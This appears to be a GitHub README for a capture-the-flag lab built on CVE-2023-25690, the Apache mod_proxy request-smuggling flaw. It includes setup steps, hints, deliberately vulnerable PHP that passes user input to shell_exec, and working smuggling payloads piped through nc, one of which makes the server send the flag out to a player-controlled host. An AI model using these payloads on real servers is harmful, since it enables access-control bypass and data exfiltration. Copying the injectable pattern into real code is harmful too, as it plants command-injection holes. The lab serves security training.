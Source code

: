 # Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity

<p align="center">
  <a href="#installation">Install</a> •
  <a href="#documentation">Usage</a> •
  <a href="#about">About</a> •
  <a href="#exploit">Exploit</a> •
  <a href="#demo">Demo</a>
</p>

# Installation
```bash
git clone https://github.com/vigneshsb403/Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity.git
cd Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity
docker compose build
docker compose up
```
now you can visit your `localhost` to view the site is up.

# Documentation
```
Challenge name: Apache Tide: Unraveling the HTTP Request Smuggling
Sub-Challenge 1 name: Hidden Trails: Unearthing the Forbidden
Sub-Challenge 2 name: Local Odyssey: Navigating the Depths of Localality
```
> [!NOTE]\
> The challenge name gives a overview to the player that this challenge is about request smunggling and then the sub-challenge name 1 gives a hint that the player has to acess a unotherised file. then the sub-challenge name 2 gives a hint that the player hint that they have to acess the a internal function to get the flag.

## Hints

```
Hint 1: Did you go through the commented html code?
Hint 2: Visit Robots.txt
Hint 3: check the Server header from the responce
```
the final hint gives idea to the player that this challenge is based on a CVE.
### Mission brief 1
In the mission brief of sub challenge 1 we can give a glimpse of the code:
```php
if(isset($_GET['hacked'])){
    $flag = 'TH!S_!S_1$t_FLAG';
    file_put_contents('flag.txt', $flag);
}
```
and then they can get the file using
```bash
curl --location 'http://localhost/flag/'
```
### Mission brief 2
In the mission brief of sub challenge 2 we can add that there is a part of code like:
```php
if(isset($_GET['secret'])){
    $secret = $_GET['secret'];
    shell_exec("curl --location '" . $secret . "/dontlookhere'"); // this sends the flag to players server.
}
```
which gives players the overview that they have to pass in a listening servers host or ip to get the flag.
# About
this challenge is based on CVE 2023 25690.

Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack. Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution. For example, something like: RewriteEngine on RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] ProxyPassReverse /here/ http://example.com:8080/ Request splitting/smuggling could result in bypass of access controls in the proxy server, proxying unintended URLs to existing origin servers, and cache poisoning. Users are recommended to update to at least version 2.4.56 of Apache HTTP Server.

# Exploit
Sub-Challenge-1 can be solved by sending a request like:
```bash
echo "GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fhacked%3dTrue HTTP/1.1\r\nHost: hostname\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)\r\n\r\n" | nc localhost 80
```
followed by an other request:
```bash
curl --location 'http://localhost/flag/'
```
Sub-Challenge-2 can be solved by sending a request like:
```bash
echo "GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fsecret%3dplayerserver.com HTTP/1.1\r\nHost: hostname\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)\r\n\r\n" | nc hostname 80
```
why this instered of BurpSuite or any other proxy because it is hard to replicate the unicodes there.

> [!NOTE]\
> The hostname must be changed accordingly\
> The `playerserver.com` must be changed to send the request to the players server.

# Demo
[Watch the demo video](Assets/demo.mov)

